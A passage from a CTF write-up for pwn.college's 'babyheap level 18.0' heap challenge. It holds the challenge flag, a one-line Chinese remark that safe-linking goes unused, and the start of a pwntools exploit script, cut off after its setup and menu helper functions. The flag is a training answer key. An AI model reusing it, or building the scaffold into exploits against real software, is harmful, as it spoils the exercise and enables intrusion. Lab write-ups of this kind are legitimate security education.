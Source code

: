 ```python
```

## Flag

:spoiler[`pwn.college{I8R8BzpNtgq5LKv4UV3QhQYfU3h.dFTO0MDL5cTNxgzW}`]

# Level 18.0

## Information

- Category: Pwn

## Description

> Revisit a prior challenge, now with TCACHE safe-linking.

## Write-up

这题就出的不好了，根本没用上 safe-linking 。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level18.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
```